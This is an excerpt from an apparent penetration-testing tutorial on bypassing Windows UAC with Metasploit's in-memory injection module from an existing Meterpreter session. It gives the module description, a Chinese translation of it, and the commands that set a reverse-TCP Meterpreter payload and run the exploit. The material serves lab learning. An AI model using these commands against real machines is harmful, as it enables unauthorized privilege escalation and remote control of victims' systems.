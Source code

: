 Now that we've verified that the Admin user is part of the Administrators group, we already know that we don't have administrative privileges through the Meterpreter session.

We can bypass UAC by utilizing the Bypass UAC module. But to be specific, we're look for the In Memory Injection module.

Terminate this particular channel.

```
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>^C
```

Put this in the background.

```
meterpreter > background
```

And if we check our sessions, you can see that this is a Meterpreter 64-bit Meterpreter session. And we currently have access to the system via the Admin user.

```
sessions
```

The one we are interested in, in particular is going to be the Bypass UAC Injection module, which performs the bypassing of the User Access Control mechanism in memory. And in this case, it will execute the Meterpreter payload in memory.

[Windows Escalate UAC Protection Bypass (In Memory Injection)](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/)

This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.

Windows 升级 UAC 保护绕过（内存注入）

该模块将通过进程注入利用受信任的发布者证书来绕过 Windows UAC。它将生成第二个关闭 UAC 标志的 shell。该模块使用反射 DLL 注入技术仅丢弃 DLL 负载二进制文件，而不是标准技术中的三个单独的二进制文件。但是，它需要选择正确的体系结构（对于 SYSWOW64 系统也使用 x64）。如果指定 EXE::Custom，您的 DLL 应该在单独的进程中启动有效负载后调用 ExitProcess()。

It's going to set the default payload to the 32-bit Meterpreter payload. So we need to change that to the Windows x64 payload.

```
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
show options
set SESSION 1
```

We then need to set up the LPORT option, because if we list out our sessions here, this particular session is already utilizing port 4444.

```
sessions
set LPORT 4433
run
```
